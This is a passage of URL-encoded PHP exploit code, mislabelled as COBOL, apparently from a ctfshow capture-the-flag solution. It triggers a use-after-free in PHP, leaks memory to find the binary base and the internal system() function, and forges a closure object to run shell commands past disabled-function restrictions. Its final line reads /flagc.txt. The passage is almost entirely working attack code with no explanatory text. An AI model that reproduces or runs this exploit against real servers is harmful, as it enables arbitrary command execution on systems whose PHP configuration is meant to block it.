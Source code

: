 ```cobol
0if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflagc.txt%22)%3Bob_end_flush()%3B%0A%3F%3E
```
